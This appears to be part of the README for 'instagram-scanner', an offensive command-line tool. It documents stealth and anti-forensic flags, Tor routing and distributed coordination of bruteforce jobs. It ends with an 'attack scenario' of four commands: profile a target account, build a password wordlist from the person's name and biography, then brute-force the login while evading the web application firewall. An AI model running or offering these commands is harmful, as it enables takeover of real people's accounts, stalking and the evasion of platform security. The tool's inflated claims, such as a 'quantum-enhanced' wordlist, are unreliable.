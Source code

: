 ### Stealth Command

Configures Ghost Protocol and anti-forensic measures for completely undetectable operations.

```bash
instagram-scanner stealth [flags]
```

#### Stealth Flags
```
  --anti-forensic          Eliminate all traces of tool usage
  --browser-emulation      Mimic legitimate browser behavior
  --circuit-layers int     Number of Tor circuit layers to use (default 3)
  --enable-all             Enable all stealth features
  --ghost-mode             Activate zero-trace penetration protocol
  --randomize-timing       Implement human-like timing variations
  --signature-obfuscation  Hide tool fingerprint from network traffic
```

### Distributed Command

Coordinates attacks across multiple nodes for maximum speed and efficiency.

```bash
instagram-scanner distributed [flags]
```

#### Distributed Flags
```
  --coordinator               Run as coordination node
  --node                      Run as worker node
  --coordinator-host string   Coordinator server host (for worker mode)
  --coordinator-port int      Coordinator server port (default 9001)
  --max-nodes int             Maximum number of worker nodes (default 10)
  --node-id string            Unique identifier for this node
  --task-type string          Type of task to distribute (bruteforce, osint)
```

## 🎯 ELITE ATTACK SCENARIOS

### Scenario 1: Zero-Trace Penetration

Execute a complete ghost-mode operation with maximum stealth and WAF bypass:

```bash
# 1. Enable Ghost Protocol with full stealth optimization
instagram-scanner stealth --ghost-mode --anti-forensic --browser-emulation --signature-obfuscation

# 2. Extract intelligence with advanced OSINT methods
instagram-scanner osint -T target_account -f -F -p -c -g -W target_wordlist.txt --max-followers 1000

# 3. Generate quantum-enhanced wordlist with OSINT data
instagram-scanner wordlist -U target_account -f "Target Name" -B "Extracted biography text" -O enhanced_wordlist.txt -l -c -N

# 4. Execute bruteforce with advanced WAF avoidance
instagram-scanner bruteforce -U target_account -w enhanced_wordlist.txt -r penetration_report.txt -t -n 20 -d 1500
```
